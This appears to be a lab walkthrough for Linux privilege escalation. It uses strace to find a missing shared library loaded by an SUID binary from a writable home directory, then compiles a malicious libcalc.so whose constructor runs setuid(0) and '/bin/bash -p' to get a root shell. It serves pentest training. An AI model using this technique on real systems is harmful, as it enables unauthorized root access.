 ```yaml
---
legal-banner: true
---
```


1.  Since we are not familiar with this binary, the very first thing we should do is interact with it to see what it does.  
    `/usr/local/bin/suid-so` 

    ![](../../../img/Linux-Environment/132.png)
    
2.  we can use the strings command to see if there are any binaries or shared libraries being loaded during execution.  
    `strings /usr/local/bin/suid-so`

    ![](../../../img/Linux-Environment/133.png) 
    
    
3.  let’s take a closer look at what the binary is doing at runtime by debugging it,we are most interested in seeing what gets loaded when the program runs, which is why we will use strace for our debugging.  
    `strace /path/to/suid-binary 2>&1 | grep -iE "open|access|no such file"`  

    ![](../../../img/Linux-Environment/134.png)

    **NOTE:** most important is finding a shared object that executes from a directory where we have write permissions.
    
4.  it appears that a shared object is loaded during execution from user home directory we have write permissions to home directory, we should be able to replace libcalc.so with something malicious.  
    `ls -la /home/user/.config/`  
    
    ![](../../../img/Linux-Environment/135.png)
    
5.  Similar to when we used the strings command, we have discovered the libcalc.so file that executes from user home directory, This also confirms that the shared object is being loaded during execution, which means it is exploitable.
    
6.  we will create a malicious C program and then compile it into a shared object file.
    
    ```C
    #include <stdio.h>
    #include <stdlib.h>
    
    static void inject() __attribute__((constructor));
    
    void inject() {
        setuid(0);
        system("/bin/bash -p");
    }
    ```
    
7.  we need to compile the C program into a shared object file and place it in the expected path of the missing library  
    `gcc -shared -fPIC -o /expected/path/malicious.so /path/to/malicious.c`  
    
    ![](../../../img/Linux-Environment/136.png)
    
8.  All we need to do now is run the suid-so binary. Once executed, it will load the lcalc shared library. When it does, it will execute our malicious version of libcalc.so and drop us directly into a root shell.  
    `/path/to/suid-binary`  
    
    ![](../../../img/Linux-Environment/137.png)